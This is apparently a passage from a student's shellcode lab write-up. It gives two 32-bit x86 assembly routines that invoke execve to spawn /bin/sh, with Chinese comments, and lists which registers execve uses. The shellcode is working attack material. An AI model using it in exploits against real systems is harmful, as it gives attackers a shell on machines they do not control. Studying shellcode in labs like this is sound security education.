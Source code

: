 ```asm
        xor eax,eax
        push eax
        mov eax,"##-c"
        shr eax,16
        push eax
        mov edx,esp ;store -c into edx

        xor eax,eax
        push eax ; 0 terminate
        push ecx ; ls -al
        push edx ; -c 
        push ebx ; /bin/sh
        mov ecx,esp

      ; For environment variable 
      xor  edx, edx     ; No env variables 

      ; Invoke execve()
      xor  eax, eax     ; eax = 0x00000000
      mov   al, 0x0b    ; eax = 0x0000000b
      int 0x80

```

> Invoking execve(“/bin/sh”, argv, 0)
>
> –**eax** = 0x0b: execve() system call number
>
> –**ebx** = address of the command string “/bin/sh”
>
> –**ecx** = address of the argument array argv
>
> –**edx** = address of environment variables (set to 0)

# Task 2: Using Code Segment

```asm
section .text
  global _start
    _start:
      
      	BITS 32
        jmp short two
   
   	one:
        pop ebx ; ebx储存字符串地址
        xor eax, eax ; 将eax置为0
        mov [ebx+7], al ;将al，也即是0替换*
        mov [ebx+8], ebx  ;将字符串的地址赋给AAAA所在的内存处(4 bytes)
        mov [ebx+12], eax ; 将0赋给BBBB所在内存处
        lea ecx, [ebx+8] ; ecx=ebx+8，也即是ecx储存/bin/sh\0的地址
        xor edx, edx ;edx为0，表示无环境变量
        mov al,  0x0b ;系统调用号
        int 0x80
        
    two:
        call one
        db '/bin/sh*AAAABBBB' 
```
